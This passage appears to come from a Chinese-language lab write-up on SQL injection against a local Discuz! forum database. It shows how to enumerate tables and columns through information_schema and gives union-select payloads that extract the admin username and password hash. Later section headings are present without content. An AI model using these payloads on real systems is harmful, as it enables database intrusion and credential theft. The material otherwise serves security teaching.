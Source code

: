 分别为discuz_common_admincp_cmenu,

discuz_common_admincp_group,

**discuz_common_admincp_member,**

discuz_common_admincp_perm,

discuz_common_admincp_session,

discuz_common_admingroup,

discuz_common_adminnote,

discuz_common_advertisement,

discuz_common_advertisement_custom,

discuz_common_banned,

discuz_common_block,

discuz_common_block_favorite,

discuz_common_blo 

==显然此处被截断了`group_concat()`已经输出最大长度，MYSQL内部对这个是有设置的，默认长度是1024==

经过搜索[Discuz! 3.2 中各数据库表的作用_Frank看庐山的博客-程序员宝宝](https://www.cxybb.com/article/qq_14989227/78184690)可以知道`pre_common_member` 是用户表，密码是随机生成记录，实际记录在UCenter。因此推测本地`discuz`的用户表名应该是`discuz_common_member` 。

在`information_schema.columns`中查询`discuz`库中的`discuz_common_member`表的所有列名：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='discuz_common_member' and table_schema='discuz'--+
```

![](https://img.yatjay.top/md/202203251640966.png)

得到`discuz`库中的`discuz_common_member`表的所有列名分别是：

在数据表`discuz.discuz_common_member`中查询指定数据`username`和`password`，并且限制显示的数据条目数量

```sql
id=-1' union select 1,username,password from discuz.discuz_common_member limit 0,1--+
```

![](https://img.yatjay.top/md/202203251640794.png)

```sql
id=-1' union select 1,username,password from discuz.discuz_common_member limit 1,1--+
```

![](https://img.yatjay.top/md/202203251641453.png)

查到`discuz.discuz_common_member`表中只有一条数据即:`username`为`admin`，`password`为`785abd34df1042f9d15efe598b926ebc`(已被加密)。

## 高权限注入文件读写操作测试



## 魔术引号开启后相关操作测试



## 相关自定义代码过滤操作测试